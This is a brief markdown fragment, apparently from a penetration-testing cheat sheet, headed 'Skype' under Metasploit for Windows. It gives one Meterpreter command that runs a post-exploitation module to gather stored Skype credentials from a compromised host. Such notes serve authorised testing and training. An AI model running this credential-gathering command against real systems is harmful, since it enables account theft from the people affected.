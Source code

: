 # Skype

## 01 - Metasploit

### 1.1 - Windows

`meterpreter > run post/windows/gather/credentials/skype`